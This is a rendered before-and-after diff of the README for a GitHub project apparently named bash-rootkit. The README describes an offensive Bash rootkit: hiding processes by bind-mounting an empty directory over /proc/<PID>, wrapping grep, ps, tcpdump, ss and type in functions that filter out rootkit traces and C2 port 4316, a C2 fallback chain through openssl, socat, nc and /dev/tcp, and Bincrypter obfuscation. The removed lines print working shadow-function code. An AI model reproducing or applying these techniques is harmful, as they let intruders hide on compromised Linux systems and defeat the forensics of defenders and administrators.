

Before and after one commit to JamesRiversTech/bash-rootkit, a Markdown page: README.md, the part around one of its changes. Shown at 83% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -84,82 +98,51 @@ done &>/dev/null
 ```
 
-Cleanup is handled via a `trap` on `EXIT` / `SIGINT` / `SIGTERM` — unmounting all `/dev/shm`
-bind-mounts and killing background jobs so the operator can leave a clean slate on demand.
+Fallback chain: openssl (TLS) → socat (TLS) → ncat (TLS) → cryptcat → nc → `/dev/tcp`.
+Works on almost any stock Linux system without extra packages.
+
+Cleanup is handled via `trap` on `EXIT` / `SIGINT` / `SIGTERM` — unmounting all `/dev/shm`
+bind-mounts and killing background jobs on demand.
 
 ### PID Hiding — `mtab()`
 
-The `mtab()` function is the core hiding primitive:
-
-1. Ensures `/etc/mtab` isn't a symlink (which would log mount activity)
-2. Creates a permanently empty, immutable directory at `/dev/shm/.cache_main`
-3. Bind-mounts that empty directory over `/proc/<PID>` — making the process invisible to
-   `ls /proc`, `ps`, and friends
+1. Converts `/etc/mtab` from symlink to real file (prevents mount logging via `-n` flag)
+2. Creates a chmod 555 empty directory at `/dev/shm/.cache_main`
+3. Bind-mounts it over `/proc/<PID>` — process invisible to `ls /proc`, `ps`, and friends
 
 ---
 
 ## 🪞 Command Shadowing — `final_functions`
 
-Every common detection tool is overridden with a Bash function that calls the real binary but
-pipes output through `grep -Ev "$_HG_P"` — stripping any line matching the rootkit's fingerprint
-pattern. Tab-completion is preserved by checking `$COMP_LINE` and bypassing the filter during
-completions, so nothing feels broken to the user.
+Every common detection tool is overridden with a Bash function that calls the real binary
+but pipes output through `grep -Ev "$_HG_P"`, stripping any line matching a rootkit
+indicator. Tab-completion is preserved via `$COMP_LINE` checks.
 
-The `<filename>` of the persistence script is also added to `_HG_P`, meaning `ls`, `cat`, and
-`grep` will never surface it either.
-
-```bash
-# Master filter pattern — every rootkit indicator in one variable
-command export _HG_P="grep|ps|mount|4316|/proc/|hidepid|bash_|<filename>|..."
-```
+The persistence path and C2 port are patched into `_HG_P` by `setup.sh` at build time.
 
 ### Shadowed Commands
 
 | Command | Technique | What it hides |
 |---------|-----------|---------------|
-| `busybox` | Subcmd router | Routes all wrapped subcommands through hooked functions, defeating busybox-as-clean-binary bypass |
+| `busybox` | Subcmd router | Routes all subcommands through hooked functions, defeating busybox-as-clean-binary bypass |
 | `ls` | Bash fn + `-I` flags | Hidden files & empty `/proc` entries for masked PIDs |
-| `ps` / `pgrep` / `top` / `htop` | Mounted over by `mtab()` | Rootkit process names, IP, port |
+| `ps` / `pgrep` / `top` / `htop` | Mounted over by `mtab()` | Rootkit processes |
 | `grep` / `head` / `tail` / `cat` | Pipe through `grep -Ev $_HG_P` | Any line containing rootkit indicators |
 | `mount` / `findmnt` | Output filter | `/proc` and `/dev/shm` bind-mounts |
 | `tcpdump` | Auto-inject BPF filter | C2 port from all captures |
 | `ss` / `netstat` | Pattern-filtered output | C2 port connection |
 | `lsof` / `strace` | Pattern-filtered output | Open FDs and syscalls related to the beacon |
 | `set` / `declare` / `typeset` | AWK block-skip parser | Shadow function definitions from variable dumps |
-| `env` / `printenv` / `export` | AWK + grep filter | `_HG_P` env var & `BASH_FUNC_*` exports |
+| `env` / `printenv` / `export` | AWK + grep filter | `_HG_P` var & `BASH_FUNC_*` exports |
 | `type` / `which` | Hardcoded case statements | Returns fake binary paths for shadowed commands |
-| `unset` / `builtin` | Re-source hook | Re-injects functions if someone tries to unset them |
+| `unset` / `builtin` | Guard wrapper | Silently fails if called against any hooked function |
 
-```bash
-# grep — filters its own output
-grep() {
-  [[ -n "$COMP_LINE" ]] && { /usr/bin/grep "$@"; return; }
-  /usr/bin/grep "$@" | /usr/bin/grep -Ev "$_HG_P"
-}
-
-# tcpdump — auto-injects a BPF expression to hide C2 traffic
-tcpdump() {
-  local f="not port 4316"
-  [[ $# -eq 0 ]] \
-    && /usr/sbin/tcpdump -i any $f 2>/dev/null \
-    || /usr/sbin/tcpdump "$@" and $f 2>/dev/null
-}
-
-# type / which — return fake paths so forensics look clean
-type() {
-  for a in "$@"; do
-    case "$a" in
-      grep|ps|mount|...) /usr/bin/echo "$a is /usr/bin/$a" ;;
-      type|set|alias|...) /usr/bin/echo "$a is a shell builtin" ;;
-      *) command builtin type "$a" 2>/dev/null ;;
-    esac
-  done
-}
-```
+Absolute path calls (e.g. `/usr/bin/grep`) are also intercepted — at load time each
+tool's full path is registered as a function too. `_HIDDEN_FUNC_PATTERN` is built
+dynamically using `command which` so paths are correct on any target system.
 
 ---
 
 ## 🔒 Obfuscation — THC Bincrypter
 
-After the beacon is finalized, it's passed through
-[THC's Bincrypter](https://github.com/hackerschoice/bincrypter). The result:
+[THC's Bincrypter](https://github.com/hackerschoice/bincrypter):
 
````
Also changed, not shown: other parts of README.md (+62 -48 lines).
